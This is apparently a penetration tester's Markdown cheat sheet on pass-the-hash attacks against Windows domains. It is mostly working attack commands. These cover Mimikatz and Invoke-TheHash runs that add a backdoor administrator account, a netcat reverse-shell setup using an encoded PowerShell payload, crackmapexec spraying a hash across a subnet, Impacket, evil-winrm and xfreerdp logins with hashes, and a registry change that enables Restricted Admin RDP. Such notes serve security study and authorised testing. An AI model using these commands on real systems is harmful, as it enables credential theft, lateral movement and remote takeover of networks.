 - [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication.
- The traditional pass-the-hash technique involves reusing a hash through the NTLMv1/NTLMv2 protocol, which doesn't touch Kerberos at all.
---
## PtH from Windows
- PtH with [Mimikatz](https://github.com/gentilkiwi).
	``` powershell
	c:\> mimikatz.exe privilege::debug "sekurlsa::pth /user:<name> /rc4:<MTLM hash> /domain:<> /run:cmd.exe" exit
	```
	- `/rc4` or `/NTLM` - NTLM hash of the user's password.
	- `/domain` - Domain the user to impersonate belongs to.
		- For local user account, use the machine name, localhost or a dot (.).
	- After executing the above command, another CMD window in the context of the target user will pop up.
- PtH with [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash).
	- The tool can perform PtH with WMI and SMB through the .NET TCPClient.
	- Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol.
	- Admin priv not required on client-side, but the user and hash we use to authenticate need to have admin priv on the target.
	- The following command will create a new user and add it to admins group.
	``` powershell
	PS> Import-Module .\Invoke-TheHash.psd1
	PS> Invoke-SMBExec -Target IP -Domain Domain -Username Name -Hash NTLM/NT:NTLM -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
	# OR
	PS> Invoke-WMIExec -Target IP -Domain Domain -Username Name -Hash NTLM/NT:NTLM -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
	```
- We can also get a reverse shell connection in the target machine.
	1. Start a netcat listener on attack host `nc.exe -lvnp 8001`
	2. Create a rev shell payload using [revshells](https://www.revshells.com/), set `IP`, `PORT`, `PowerShell #3 (Base64)`.
	3. Utilize `Invoke-WMIExec` to execute the payload on the target machine
		``` powershell
		PS> Invoke-WMIExec -Target <IP/Hostname> -Domain <domain> -Username <name> -Hash <hash> -Command "The payload"
		```
## PtH from Linux
- PtH with [Impacket](https://github.com/SecureAuthCorp/impacket)
	``` bash
	$ impacket-psexec USER@IP -hashes :<hash>
	```
	- we can also use [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py), [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py), [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py).
- PtH with `crackmapexec`
	``` bash
	# Authenticate the leaked user creds against every host in the domain's subnet, or provide IP for one host
	crackmapexec smb 172.16.1.0/24 -u administrator -d <domain or .> -H <hash>
	# To perform the same actions against local administrator hash add --local-auth to the command.
	# To execute commands add `-x <command>` to the command.
	```
- PtH with `evil-winrm`
	``` bash
	$ evil-winrm -i <IP> -u Administrator -H <hash>
	# In case of using a domain account, include it, for example: administrator@domain
	```
- RDP 
	- PtH with `xfreerdp`
		``` bash
		xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
		```
  - `Restricted Admin Mode` is disabled by default, it should be enabled on the target host.
  <img src="/assets/rdp_session-4.png" style="width:50%; height:50%;">

  - Enable it by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of `0`. 
      ```cmd
      c:\> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
      ```

> [!Note]
> **UAC protection**:
> UAC (User Account Control) limits local users' ability to perform remote administration operations. 
> If the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` set to `0`, 
> it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks.
> If set to `1`, it allows the other local admins as well.
> 
> **Exception**:
> The registry key `FilterAdministratorToken` (disabled by default).
> If its value is `1`, the RID 500 account (even if it is renamed) is enrolled in UAC protection.
> This means that remote PTH will fail against the machine when using that account.
> 
> These settings are only for local administrative accounts.
> If we get access to a domain account with administrative rights on a computer, we can still use Pass the Hash with that computer.

---
